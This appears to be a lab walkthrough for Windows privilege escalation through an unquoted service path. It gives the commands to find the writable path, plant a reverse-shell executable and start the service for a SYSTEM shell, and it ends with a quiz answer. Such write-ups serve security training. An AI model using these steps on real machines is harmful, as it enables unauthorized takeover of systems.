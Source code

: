 Query the "unquotedsvc" service and note that it runs with SYSTEM privileges (SERVICE_START_NAME) and that the BINARY_PATH_NAME is unquoted and contains spaces.

```
sc qc unquotedsvc
```

![[Pasted image 20240527223039.png]]

Using accesschk.exe, note that the BUILTIN\Users group is allowed to write to the C:\Program Files\Unquoted Path Service\ directory:  

```
C:\PrivEsc\accesschk.exe /accepteula -uwdq "C:\Program Files\Unquoted Path Service\"
```

![[Pasted image 20240527223121.png]]

Copy the reverse.exe executable you created to this directory and rename it Common.exe:

```
copy C:\PrivEsc\reverse.exe "C:\Program Files\Unquoted Path Service\Common.exe"
```

![[Pasted image 20240527223156.png]]

Start a listener on Kali and then start the service to spawn a reverse shell running with SYSTEM privileges:

```
net start unquotedsvc
```

![[Pasted image 20240527223227.png]]

![[Pasted image 20240527223242.png]]

Answer the questions below

| Question                                                 | Answer                                                                      |
| -------------------------------------------------------- | --------------------------------------------------------------------------- |
| What is the BINARY_PATH_NAME of the unquotedsvc service? | C:\Program Files\Unquoted Path Service\Common Files\unquotedpathservice.exe |

